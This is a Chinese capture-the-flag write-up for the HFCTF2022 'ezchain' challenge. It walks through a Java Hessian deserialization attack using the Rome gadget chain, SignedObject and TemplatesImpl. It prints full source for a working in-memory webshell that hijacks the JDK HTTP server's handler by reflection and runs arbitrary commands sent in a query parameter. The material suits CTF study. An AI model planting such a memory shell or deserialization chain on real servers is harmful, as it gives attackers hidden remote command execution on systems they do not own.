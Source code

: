 # HFCTF2022-ezchain复现

> 首先，附上我y4大哥的博客:https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java%E9%83%A8%E5%88%86
>
> 请大家快来舔一下

## 0x01 题目

![image-20220326181820829](https://img.dem0dem0.top/images/image-20220326181820829.png)

给了源码是`Hessian`的反序列化，应该不用多说了，该开撸了。而且不出网，就不能配合JNDI了。

## 0x02 解题

>  https://blog.csdn.net/weixin_44058342/article/details/104577155

搜索到的关于Hessian的反序列化，都推荐我们去看看`marshalsec`,然后我们就去看了

`Rome`+`XBean`+`Resin`,三条反序列化链条。

再加上题目的究极提示

![image-20220326202058175](https://img.dem0dem0.top/images/image-20220326202058175.png)

我们选择`Rome`这条数据链，首先先熟悉一下这个利用链的触发流程。`HessianInput.readObject()`=>`MapDeserializer.readMap(in)`=>`HashMap.put(key,value)`=>`hashCode`=>`beanHashCode`=>`getter`

他们提出方法是搜索全局的`get`方法，但是我是一个懒狗，所以我做到这里也就到了结尾了。下面的思路都来自于y4和心心。

不难发现`SignedObject`的`getObject`

```java
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

二次触发反序列化，`Hessian`的反序列化对于`_tfactory`有限制。然后我们就可以借助` TemplatesImpl`来执行命令了，但是不出网，但是没有回显，就是注入内存马了。存储一个内存马备用。

![image-20220326203948844](https://img.dem0dem0.top/images/image-20220326203948844.png)

```java
import com.sun.net.httpserver.HttpContext;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;
import java.lang.reflect.Field;

public class Yyds extends AbstractTranslet implements HttpHandler {
    public void handle(HttpExchange t) throws IOException {
        String response = "Y4tacker's MemoryShell";
        String query = t.getRequestURI().getQuery();
        String[] var3 = query.split("=");
        System.out.println(var3[0]+var3[1]);
        ByteArrayOutputStream output = null;
        if (var3[0].equals("y4tacker")){
            InputStream inputStream = Runtime.getRuntime().exec(var3[1]).getInputStream();
            output = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int n = 0;
            while (-1 != (n = inputStream.read(buffer))) {
                output.write(buffer, 0, n);
            }
        }
        response+=("\n"+new String(output.toByteArray()));
        t.sendResponseHeaders(200, (long)response.length());
        OutputStream os = t.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public Yyds() throws Exception  {
        super();
        try{

            Object obj = Thread.currentThread();
            Field field = obj.getClass().getDeclaredField("group");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("threads");
            field.setAccessible(true);
            obj = field.get(obj);
            Thread[] threads = (Thread[]) obj;
            for (Thread thread : threads) {
                if (thread.getName().contains("Thread-2")) {
                    try {
                        field = thread.getClass().getDeclaredField("target");
                        field.setAccessible(true);
                        obj = field.get(thread);
                        System.out.println(obj);

                        field = obj.getClass().getDeclaredField("this$0");
                        field.setAccessible(true);
                        obj = field.get(obj);


                        field = obj.getClass().getDeclaredField("contexts");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        field = obj.getClass().getDeclaredField("list");
                        field.setAccessible(true);
                        obj = field.get(obj);
                        java.util.LinkedList lt = (java.util.LinkedList)obj;
                        Object o = lt.get(0);
                        field = o.getClass().getDeclaredField("handler");

                        field.setAccessible(true);
                        field.set(o,this);
                    }catch (Exception e){
                        e.printStackTrace();
                    }
                }

            }
        }catch (Exception e){
        }
    }

}
```

## 链子2

![image-20220326210519979](https://img.dem0dem0.top/images/image-20220326210519979.png)

命令注入了。
